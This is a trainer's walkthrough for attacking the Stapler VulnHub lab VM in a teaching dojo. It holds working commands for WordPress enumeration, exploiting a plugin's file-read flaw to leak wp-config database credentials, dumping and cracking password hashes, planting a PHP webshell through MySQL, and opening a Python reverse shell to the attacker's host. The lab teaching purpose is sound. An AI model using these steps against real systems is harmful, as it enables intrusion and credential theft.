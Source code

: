 ```yaml
---
author: bhero
topic: dojo
---
```


Attack and exploit portion of the Dojo

# Attacking

Pull everyone together to discuss what they found, ask how they did it

Replicate as per walkthrough if required - what trolls did people find

Use the whiteboard for this section to formulate a picture of the services.

ASK:
1. did anyone brute force in?
2. did anyone get in another way? - How far?
3. did people find WP site?
4. did people try login against mysql?



key notes before attack - the plugin is vulnerable to LFI
This allows access to root dB creds, with this we can get full shell access.

This section varies with skill of audience, many folks may just want a demo others hints.

Prefeered vector is progromatic exploit as audience are devs

can also steal/guess username and break password - cover how to do this via hydra tutorial

allow 30 mins

explain there is way in with a code vulnerability, show exploit dB and searchsploit


Attack the webserver via wordpress upload.
get the nikto scan: (set the var STAPLER_IP)
```
nikto -h https://$STAPLER_IP:12380/blogblog/ > HTTPSblogblog.txt
```

start scripts to identify the wp_users and the plugins:

```
wpscan --url https://$STAPLER_IP:12380/blogblog/ --enumerate u --disable-tls-checks -o wpscan_users.txt
```
```
wpscan --url https://$STAPLER_IP:12380/blogblog/ --enumerate ap --disable-tls-checks --plugins-detection aggressive -o wpscan_plugins.txt
```

while running show the dir listing issue and visit the plugins url: 
https://192.168.56.104:12380/blogblog/wp-content/plugins/

poke about - highlight the uploads:
https://192.168.56.104:12380/blogblog/wp-content/uploads/

mention plugins are usually the weakness

use searchsploit:
```
searchsploit wordpress plugin video advanced
```

read in terminal
```
less /usr/share/exploitdb/exploits/php/webapps/39646.py 
```

explain that it forces an upload of an 'image' because $thumb not secure, no file type check implemented. - check the inputs would fix this.

a POC:
https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/passwd`

go to uploads and view the picture
explain it is text not jpg, so we curl

example:
```
curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/108293608.jpeg
```

now we check the wp-config because it has dB access details:
https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php


get mysql root password onliner example:

curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/1006632345.jpeg


login and get passwords

```
mysql -h $STAPLER_IP -u root -pplbkac 
use wordpress;
select user_login,user_pass from wp_users;
```

close the connection and get the editied file: [wp_users.txt](/assets/vulnhub_stuff/stapler/wp_users.txt)

break the passwords with:

john wp_users.txt -wordlist=/usr/share/wordlists/rockyou.txt
this would let you login, but we all use super big passwords right?

so we won't wait, lets revisit the exploit to get the server root of the webserver via default config, explain apache config

https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/apache2/sites-enabled/000-default.conf

curl it to see DocumentRoot /var/www/https can be enumerated from /etc/apache2/sites-enabled/000-default.conf

login again and pop a wbshell in

```
mysql -h $STAPLER_IP -u root -pplbkac 
select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/https/blogblog/wp-content/uploads/mysql-shell.php';
```

check it works example:

https://192.168.56.105:12380/blogblog/wp-content/uploads/mysql-shell.php?cmd=ls


time to get a shell:
set listner on port 21 
then go here:
https://192.168.56.104:12380/blogblog/wp-content/uploads/system-webshell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

spawn bash:
``` sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

ctrl^Z it and get a ptty:
```
stty raw -echo
fg
```

do stuff, show execution!

## Recommended Resources

tutorial site for reverse shells

code injections
searchsploit
hydra tutorial for brute forcing

next up [Pwning](Stapler-Dojo-Part-5.html)